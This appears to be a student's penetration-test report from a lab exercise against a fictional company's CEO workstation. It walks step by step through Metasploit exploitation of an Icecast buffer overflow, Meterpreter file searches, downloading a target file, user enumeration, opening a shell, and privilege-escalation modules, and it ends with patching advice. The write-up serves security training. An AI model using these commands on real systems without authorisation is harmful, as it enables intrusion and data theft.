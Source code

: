 # Penetration_Test_Engagement

In this activity, I played the role of an independent penetration tester hired by "GoodCorp Inc." to perform security tests against their CEO's workstation.

## GoodSecurity Penetration Report

AnthonyDeFrancesco@GoodSecurity.com

[Report Deliverable](Resources/Report.docx)

### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.

### 2.0 Findings

**Machine IP:**

192.168.0.20

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

Icecast Header Overwrite

![Icecast_Vulnerability](Screenshots/search_icecast_command.png)

**Vulnerability Explanation:**
 
The Icecast Header Overwrite vulnerability running on 192.168.0.20 Host allows a buffer overflow exploit that lets an attacker system gain remote control of the victim system by overwriting the memory on the system. The exploit writes past the end of a pointer array when receiving 32 HTTP headers. This allowed for a variety of remote actions, such as file discovery and download, key logging, screen capture, and privilege escalation to Administrator.

**Severity:**

The severity of this vulnerability is High, with a CVSS score of 7.5.

**Proof of Concept:**

Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

   > **Answer:** nmap -sV 192.168.0.20

   ![nmap](Screenshots/nmap_command.png)

From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

- Run the SearchSploit commands to show available Icecast exploits.

   > **Answer:** searchsploit icecast

   ![searchsploit_icecast](Screenshots/searchsploit_icecast_command.png)

Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

   > **Answer:** msfconsole

   ![msfconsole](Screenshots/msfconsole_command.png)
 
Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

   > **Answer:** search icecast

   ![search_icecast](Screenshots/search_icecast_command.png)
 
- Run the command to use the Icecast module:

   > **Answer:** use 0

   ![use](Screenshots/use_0_command.png)
 
- Run the command that sets the RHOST:

   > **Answer:** set RHOST 192.168.0.20

   ![RHOST](Screenshots/use_rhost_command.png)
 
- Run the command that runs the Icecast exploit.

   > **Answer:** exploit

   ![exploit](Screenshots/exploit_command.png)
 
You should now have a Meterpreter session open.

- Run the command that performs a search for the secretfile.txt on the target.

   > **Answer:** search -f *secretfile*.txt

   ![secretfile](Screenshots/secretfile_command.png)

- Run the command to performs a search for the recipe.txt on the target:

   > **Answer:** search -f *recipe*.txt

   ![recipe](Screenshots/recipe_command.png)

- Run the command that ex-filtrates the recipe*.txt file:

   > **Answer:** download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’

   ![exfiltrate](Screenshots/exfiltrate_recipe_command.png)

- Verify that you have successfully downloaded the file.

   > **Verification:**

   ![verification](Screenshots/verify_drinks.png) 

You can also use Meterpreter's local exploit suggester to find possible exploits.

- Run the command to use Meterpreter’s local exploit suggester.

  > **Answer:** run post/multi/recon/local_exploit_suggester

  ![exploit_suggestor](Screenshots/exfiltrate_recipe_command.png)

- Run a Meterpreter post script that enumerates all logged on users.

   > **Answer:** run post/windows/gather/enum_logged_on_users

  ![enum_users](Screenshots/logged_on_users_command.png)

- Run the command to open a Meterpreter shell and gather system information for the target.

   > **Answer:** shell

   ![shell](Screenshots/shell_command.png)

- Run the command that displays the target's computer system information:

   > **Answer:** systeminfo

   ![systeminfo](Screenshots/systeminfo_command.png)

### Separate findings for each vulnerability can be found below:

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ikeext_service

**Vulnerability Explanation:**

The ikeext_service vulnerability utilizes a missing Dynamic-link library (DLL) in Microsoft’s operating system that runs as SYSTEM and starts automatically in default installations of select windows operating systems. This vulnerability can be used for privilege escalation under the SYSTEM account. It requires an insecure bin path to plant the DLL payload.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.0.

**Proof of Concept:** 

![ikeext_proof](Screenshots/ikeext_vulnerability.png)

**Machine IP:**

192.168.0.20 Port 25

**Hostname:**

MSEDGEWIN10 (DVW10)

**Vulnerability Exploited:**

windows/local/ms16_075_reflection

**Vulnerability Explanation:**

The ms16_075_relfection vulnerability utilizes a reflection link between Distributed Component Object Model (DCOM) and Remote procedure call (RPC) that allows local users to use a crafted application to gain a SYSTEM handle for privilege escalation. The module does not start as SYSTEM by default. Once gaining a shell SYSTEM impersonation is possible.

**Severity:**

The severity of this vulnerability is Medium, with a CVSS score of 6.9.

**Proof of Concept:** 

![ms16_proof](Screenshots/ms16_075_reflection_vulnerability.png)

### 3.0 Recommendations

The Icecast Header Overflow exploit is an older vulnerability that can be fixed with a current patch. It is recommended to update to the latest version of Icecast, found here: https://icecast.org/download/

Other technical recommendations would be to encrypt all sensitive data and enable firewall rules to only allow traffic on needed ports. 

